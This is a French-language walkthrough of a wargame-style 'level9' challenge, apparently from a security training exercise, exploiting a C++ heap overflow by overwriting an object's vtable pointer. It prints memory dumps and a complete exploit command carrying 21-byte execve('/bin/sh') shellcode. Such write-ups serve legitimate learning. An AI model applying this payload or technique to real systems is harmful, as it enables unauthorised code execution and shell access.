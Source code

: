# level9 - C++ Buffer Overflow avec Shellcode

## Analyse du Programme

**Structure**
- Programme en C++
- Allocation dynamique avec `_Znwj` (opérateur new)
- Deux allocations de 108 bytes
- Copie de l'argument avec `memcpy`
- On a un call d'une fonction via un pointeur a la fin du main :
```nasm
    main<+159>:   call   *%edx
```


**Caractéristiques Mémoire**
- Premier bloc à `0x804a008`
- Second bloc à `0x804a078`
- Offset de 108 bytes entre les blocs
- memcpy à `0x0804a00c`
- Vtable de la classe à `0x08048848`

```nasm
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
```

![alt Ressources/vtable.png](Ressources/vtable.png)


## Exploitation

**Memory view**

```nasm
                                                                        shellcode(21 bytes)
0x804a008:      0x08048848 (vtptr)      0x0804a010 (adresse de)--> 0x99580b6a      0x2f2f6852
0x804a018:      0x2f686873              0x896e6962                 0xcdc931e3      0x41414180
0x804a028:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a038:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a048:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a058:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a068:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a078:      0x0804a00c              0x00000000                 0x00000000      0x00000000
                    |
                    |
                    +---------> Contient l'adresse 0x0804a010            
```

**Construction du Payload**
- Adresse pointant vers le debut de notre shellcode
- Shellcode: 21 bytes pour `execve("/bin/sh")`
- Padding: 83 bytes
- Adresse du pointeur pointant vers le debut de notre shellcode


**Commande d'Exploitation**
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')
```

Le payload:
1. Adresse pour écrire le shellcode
2. Shellcode de 21 bytes
3. Padding de 83 bytes
4. Adresse de retour pointant vers le shellcode

Cette exploitation permet d'exécuter le shellcode en redirigeant le flux d'exécution vers notre code malveillant dans la heap.